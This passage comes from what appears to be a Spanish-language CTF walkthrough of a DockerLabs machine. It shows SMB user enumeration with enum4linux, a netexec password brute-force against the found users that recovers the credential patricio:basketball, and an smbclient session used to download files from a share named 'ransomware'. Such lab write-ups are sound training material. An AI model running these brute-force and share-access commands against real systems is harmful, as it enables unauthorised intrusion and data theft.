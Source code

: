 ```
user:[bob] rid:[0x3e9]
enum4linux complete on Tue Jan  7 05:38:54 2025
```

Vemos que nos saca 3 usuarios:

```
patricio
calamardo
bob
```

Por lo que vamos hacer fuerza bruta con dichos usuarios en el `SMB`.

## Netexec

> users.txt

```
patricio
calamardo
bob
```

```shell
netexec smb <IP> -u users.txt -p <WORDLIST_PASSWORDS> --ignore-pw-decoding
```

Info:

```
SMB    172.17.0.2      445    DOCKERLABS     [+] DOCKERLABS\patricio:basketball
```

Vemos unas credenciales validas que hemos descubierto, por lo que haremos lo siguiente:

```shell
smbclient //<IP>/ransomware -U patricio
```

Info:

```
smb: \> ls
  .                                   D        0  Sun Jan  5 16:14:21 2025
  ..                                  D        0  Sun Jan  5 16:14:21 2025
  private.txt                         N       48  Sun Jan  5 11:27:26 2025
  nota.txt                            N      379  Sun Jan  5 11:28:19 2025
  pokemongo                           N    17592  Sat Jan  4 12:25:18 2025

                82083148 blocks of size 1024. 26207488 blocks available
```

Si listamos los archivos, veremos estos, por lo que nos pasaremos todos al `host`.

```shell
get private.txt
get nota.txt
get pokemongo
```
